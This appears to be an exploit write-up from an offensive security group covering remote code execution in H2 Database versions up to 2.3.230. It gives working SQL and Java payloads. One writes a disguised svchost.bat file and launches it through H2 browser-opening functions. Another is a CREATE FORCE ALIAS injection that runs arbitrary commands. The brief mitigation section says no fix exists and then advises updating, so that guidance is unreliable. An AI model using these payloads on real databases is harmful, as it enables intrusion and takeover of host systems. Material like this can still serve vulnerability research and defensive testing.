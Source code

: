 # H2 Database Remote Code Execution (RCE) - Exploit Overview

**Date:** 17/07/2024  
**Author:** ViperX Offensive Security

## Affected Versions
H2 Database versions 1.0 to 2.3.230 are vulnerable to remote code execution (RCE).

## Exploit Flow
The exploitation strategy varies based on the version of the H2 Database:

1. **For Versions < 1.4:**
    - **Step 1:** Create a 'dummy' table within the database.
    - **Step 2:** Use the `SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}'` command to write output logs to a file located at `C:\Windows\Tasks\svchost.bat`.
    - **Step 3:** Depending on the specific version, execute the `.bat` file to achieve RCE:
        - For older versions, utilize `org.h2.util.StartBrowser.openURL`.
        - For newer versions, utilize `org.h2.tools.Server.openBrowser`.

2. **For Versions ≥ 1.4:**
    - **Step 1:** Exploit the 'CREATE ALIAS' function to execute Java code directly.

## Detailed Exploit Steps

1. **Creating a Dummy Table and Writing Logs:**
    ```sql
    CREATE TABLE dummy (id INT);
    SCRIPT SIMPLE NODATA NOSETTINGS TO 'C:\Windows\Tasks\svchost.bat';
    ```

2. **Executing the Batch File:**
    - **For Older Versions:**
        ```java
        org.h2.util.StartBrowser.openURL('file:///C:/Windows/Tasks/svchost.bat');
        ```
    - **For Newer Versions:**
        ```java
        org.h2.tools.Server.openBrowser('file:///C:/Windows/Tasks/svchost.bat');
        ```

** H2DB Versions >= 1.4 . **Java Code Execution via CREATE ALIAS:**
```java
CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }$$;
```

By leveraging these methods, an attacker can perform remote code execution on vulnerable H2 Database instances, potentially gaining control over the host system.

## Mitigation
Since no fixes are currently available, it is recommended to implement the following measures to protect against this vulnerability:

- Update to the latest version of H2 Database.
- Implement strict access controls to limit exposure to untrusted networks.
- Regularly audit and monitor database configurations and activity.

For further details and assistance, please contact ViperX Offensive Security.
